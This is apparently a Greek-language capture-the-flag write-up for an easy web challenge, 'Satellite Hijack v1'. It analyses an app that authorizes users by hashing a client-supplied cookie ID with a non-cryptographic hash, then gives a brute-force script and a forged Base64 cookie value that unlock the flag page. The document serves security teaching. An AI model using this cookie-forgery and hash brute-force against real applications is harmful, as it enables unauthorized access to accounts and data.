 # Writeup for Satellite Hijack v1

| Δοκιμασία | Satellite Hijack v1 |
| :------- | :----- |
| Δυσκολία | Εύκολη |
| Κατηγορία | Παγκόσμιος Ιστός (Web) |
| Λύσεις | 15 |
| Πόντοι | 355 |

## Περιγραφή Δοκιμασίας

Η περιγραφή της δοκιμασίας δεν μας δίνει πληροφορίες για το τι πρέπει να κάνουμε, αλλά μας δίνεται μια ιστοσελίδα και ο κώδικας της. Οπότε μπορούμε να ξεκινήσουμε από την ανάλυσή του κώδικα.

## Ανάλυση

Κοιτώντας τον κώδικα που μας δίνεται, βλέπουμε πως πρόκριτε για μια web εφαρμογή γραμμένη σε [TypeScript](https://www.typescriptlang.org/) η οποία τρέχει πάνω σε [Bun](https://bun.sh/).

Ξεκινάμε ψάχνοντας πως θα μπορούσαμε να πάρουμε την σημαία, βρίσκουμε πως η εφαρμογή υλοποιεί ένα `/flag` endopoint (μέσα στο αρχείο `app.ts`) το οποίο μπορεί να εκτυπώσει την σημαία αν ο χρήστης είναι `authorized`:
```typescript
.get(
  "/flag",
  async ({ layout, flagPage, userId, authorized, redirect }) => {
    if (!authorized) return redirect("/"); // Αν ο χρήστης δεν είναι authorized κάνει μετάβαση στην αρχική σελίδα αυτόματα

    const $ = cheerio.load(Buffer.from(await layout().arrayBuffer()));

    $("#user").html(userId);
    $(".link").removeClass("has-text-info");
    $("#flag-link").addClass("has-text-info");

    $("#content").html(await flagPage().text()); // Εκτύπωση της σημαίας στην σελίδα
    $("#flag").html(flag);
    return $.html();
  }
)
```

Στο ίδιο αρχείο βρίσκουμε και την συνθήκη με την οποία αξιολογείτε αν ένας χρήστης είναι η όχι `authorized` (στον παρακάτω κώδικα έχουμε προσθέσει κώδικα για την επεξήγηση του):
```typescript
const hashed = (data: string) => Bun.hash(data).toString();
// ...
const secret = "2842816338533097556";
// ...
.resolve(({ headers, cookie }) => {
  let userId = newUser(), // Αρχικά θεωρεί πως μάλλον είναι ένας καινούριος χρήστης
    authorized = false; // Αρχικά θεωρεί πως ο χρήστης δεν είναι authorized

  if (headers.user) { // Αν δίνεται το header "user" πάνω στο HTTP request
    userId = headers.user; // Τότε η εφαρμογή θεωρεί πως αυτό είναι και το ID του χρήστη
  }

  if (cookie.user.value) { // Αν δίνεται ένα cookie με το όνομα "user"
    try {
      userId = atob(cookie.user.value); // Θεωρεί πως το ID είναι αποθηκευμένο στο cookie αυτό σε Base64 μορφή, οπότε το αποκωδικοποιεί και το χρησιμοποιεί σαν user id
    } catch (e) {
      userId = newUser(); // Αν υπάρξει πρόβλημα στην αποκωδικοποίηση, θεωρούμε πως είναι κάποιος καινούριος χρήστης
    }
  }

  authorized = hashed(userId) === secret; // Αν το ID του χρήστη το περάσουμε από την συνάρτηση "hashed(<value>)" και το αποτέλεσμα είναι ίδιο με το secret, τότε ο χρήστης είναι authorized

  cookie.user.value = btoa(userId);
  return { userId, authorized };
})
```

Βάση του παραπάνω κώδικα καταλαβαίνουμε ότι αν βρούμε την τιμή του userid για την οποία το αποτέλεσμα της συνάρτησης `hashed` είναι `2842816338533097556`, τότε θα μπορέσουμε να γίνουμε `authorized`, για να πάρουμε την σημαία.

## Επίλυση

Για να βρούμε την τιμή του user ID που θέλουμε, μπορούμε να γράψουμε ένα κώδικα ο οποίος να δοκιμάσει πολλές διαφορετικές τιμές   μέχρι να βγει το αποτέλεσμα που θέλουμε:


```typescript
// The hash function
const hashed = (data: string) => Bun.hash(data).toString(); // η συνάρτηση hashed που χρησιμοποιεί ο server

// Hash to break
const targetHash = "2842816338533097556"; // Το αποτέλεσμα που θέλουμε να βρούμε
console.log('Target Hash:', targetHash);

// Loop through all possible combinations
process.stdout.write("Bruteforcing [0%]");
for (let i = 0; i <= 999_999_999; i++) { // δοκιμή όλων των τιμών από 0 μέχρι 999.999.999
    if (hashed(i.toString()) == targetHash) { // αν βρήκαμε την τιμή
        console.log(`\nMatch found: ${i}`); // εκτύπωση της τιμής για το user id που θα μας κάνει `authorized`
        break;
    }
    if (i % 10_000_000 === 0) {
        process.stdout.write(`\rBruteforcing [${Math.round(i * 100/999_999_999)}%]`);
    }
}
```

Εκτελώντας τον κώδικά μας βρίσκουμε μια τιμή για το user id:
```
$ bun ./attack.ts
Target Hash: 2842816338533097556
Bruteforcing [70%]
Match found: 704515504
```

Οπότε μπορούμε να την μετατρέψουμε σε Base64 και να την βάλουμε στο user cookie.
```javascript
btoa('704515504'); // 'NzA0NTE1NTA0'
```

Στην συνέχεια, μπορούμε απλά να φορτώσουμε την σελίδα που θα μας δώσει την σημαία.
